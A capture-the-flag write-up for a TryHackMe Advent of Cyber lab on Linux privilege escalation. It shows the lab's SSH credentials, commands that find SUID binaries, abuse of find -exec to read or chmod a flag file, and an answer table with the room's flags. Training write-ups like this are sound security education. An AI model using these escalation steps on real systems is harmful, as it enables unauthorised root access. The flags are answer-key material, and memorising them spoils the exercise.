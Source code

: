 # [Day 8] SUID Shenanigans Writeup
### Tags: `#Linux Privilege Escalation #SUID #GTFOBins`
#### [Machine Link](https://tryhackme.com/room/25daysofchristmas)

<img src='imgs/advent2019day8.gif' width='200' align='center'>

## Walkthrough

1.) Lets ping the machine to see if it is up and running.

```bash
ping 10.10.169.45
```

![](imgs/ping.png)

2.) Lets connect to the machine through ssh on port 65534 using username:password holly:tuD@4vt0G*TU

```bash
ssh -p 65534 holly@10.10.169.45
```

![](imgs/ssh.png)

3.) Lets try and find all the binaries with the SUID bit set using the following commands.

```bash
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

![](imgs/suid.png)

4.) Using the binary "find" and the SUID bit set, we can use the -exec flag to run commands of the owner of the bin. 

```bash
find flag1.txt -exec chmod 777 flag1.txt \;
or
find flag1.txt -exec cat flag1.txt \;
```

![](imgs/find.png)

5.) The binary /usr/bin/system-control looks like a custom file and has the SUID bit set. Lets execute the bin and see if we can root on the machine.

![](imgs/root.png)

## Tasks
| Task | Question | Answer |
| --- | --- | --- |
| Task #1 | What port is SSH running on? | 65534 |
| Task #2 | Find and run a file as igor. Read the file /home/igor/flag1.txt | THM{d3f0708bdd9accda7f937d013eaf2cd8} |
| Task #3 | Find another binary file that has the SUID bit set. Using this file, can you become the root user and read the /root/flag2.txt file? | THM{8c8211826239d849fa8d6df03749c3a2} |






